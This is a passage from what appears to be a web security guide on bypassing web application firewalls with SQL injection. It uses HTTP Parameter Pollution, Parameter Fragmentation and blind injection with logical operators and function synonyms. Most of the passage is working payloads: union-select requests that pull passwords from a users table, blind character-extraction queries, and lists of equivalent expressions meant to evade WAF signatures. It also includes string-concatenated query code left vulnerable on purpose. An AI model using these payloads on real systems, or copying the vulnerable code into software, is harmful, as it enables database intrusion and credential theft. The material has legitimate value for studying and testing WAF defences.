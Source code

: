 ![<File:Sqli-HPP.png>](Sqli-HPP.png "File:Sqli-HPP.png")

**Using HTTP Parameter Pollution (HPP)**
• Vulnerable code

` SQL=" select key from table where id= "+Request.QueryString("id")`

• This request is successfully performed using the HPP technique

` /?id=1/**/union/*&id=*/select/*&id=*/pwd/*&id=*/from/*&id=*/users`

• The SQL request becomes select key from table where

` id=1/**/union/*,*/select/*,*/pwd/*,*/from/*,*/users`

**ByPassing WAF: SQL Injection – HPF**
Using HTTP Parameter Fragmentation (HPF)

• Vulnerable code example

` Query("select * from table where a=".$_GET['a']." and b=".$_GET['b']);`
` Query("select * from table where a=".$_GET['a']." and b=".$_GET['b']." limit".$_GET['c']);`

• The following request doesn’t allow anyone to conduct an attack

` /?a=1+union+select+1,2/*`

• These requests may be successfully performed using HPF

` /?a=1+union/*&b=*/select+1,2`
` /?a=1+union/*&b=*/select+1,pass/*&c=*/from+users--`

• The SQL requests become

` select * from table where a=1 union/* and b=*/select 1,2`
` select * from table where a=1 union/* and b=*/select 1,pass/* limit */from users--`

**Bypassing WAF: Blind SQL Injection**
Using logical requests AND/OR
• The following requests allow one to conduct a successful attack for
many WAFs

` /?id=1+OR+0x50=0x50`
` /?id=1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1)))=74`

<i>Negation and inequality signs (\!=, \<\>, \<, \>) can be used instead
of the equality one – It is amazing, but many WAFs miss it\!</i>

It becomes possible to exploit the vulnerability with the method of
blind-SQL Injection by replacing SQL functions that get to WAF
signatures with their synonyms.
<i> substring() -\> mid(), substr()
ascii() -\> hex(), bin()
benchmark() -\> sleep() </i>
<u>Wide variety of logical requests.</u>
and 1
or 1
and 1=1
and 2\<3
and 'a'='a'
and 'a'\<\>'b'
and char(32)=' '
and 3\<=2
and 5\<=\>4
and 5\<=\>5
and 5 is null
or 5 is not null
....
<b>An example of various request notations with the same meaning.</b>
select user from mysql.user where user = 'user' OR
mid(password,1,1)='\*'